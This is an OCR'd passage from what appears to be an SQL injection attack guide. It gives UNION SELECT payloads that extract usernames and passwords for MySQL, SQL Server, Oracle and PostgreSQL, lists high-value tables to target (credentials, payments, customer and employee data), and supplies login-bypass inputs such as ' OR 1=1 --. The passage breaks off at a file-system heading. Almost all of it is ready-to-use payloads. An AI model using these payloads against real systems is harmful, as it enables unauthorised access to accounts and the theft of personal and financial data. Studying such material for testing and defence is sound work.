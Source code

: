 #### 4.1 Direct Data Extraction

- Extract data from identified tables:
    
    ```
    ' UNION SELECT null, username, password FROM users --
    ```
    
- Extract multiple rows with string concatenation:
    
    - MySQL:
        
        ```
        ' UNION SELECT null, GROUP_CONCAT(username, ':', password SEPARATOR '<br>') FROM users --
        ```
        
    - SQL Server:
        
        ```
        ' UNION SELECT null, STRING_AGG(username + ':' + password, '<br>') FROM users --
        ```
        
    - Oracle:
        
        ```
        ' UNION SELECT null, LISTAGG(username || ':' || password, '<br>') WITHIN GROUP (ORDER BY username) FROM users --
        ```
        
    - PostgreSQL:
        
        ```
        ' UNION SELECT null, STRING_AGG(username || ':' || password, '<br>') FROM users --
        ```
        

#### 4.2 Sensitive Data Targeting

- Focus on high-value tables and data:
    - User credentials: `users`, `admin`, `members`, `accounts`
    - Financial data: `payments`, `orders`, `transactions`
    - Personal data: `customers`, `employees`, `profiles`
    - Configuration: `settings`, `config`, `parameters`

### 5. Advanced Exploitation

#### 5.1 Authentication Bypass

- Test login forms with common bypasses:
    
    ```
    username: admin' --password: anythingusername: admin'/*password: anythingusername: ' OR 1=1 --password: anythingusername: ' OR '1'='1password: ' OR '1'='1
    ```
    

#### 5.2 File System Operations
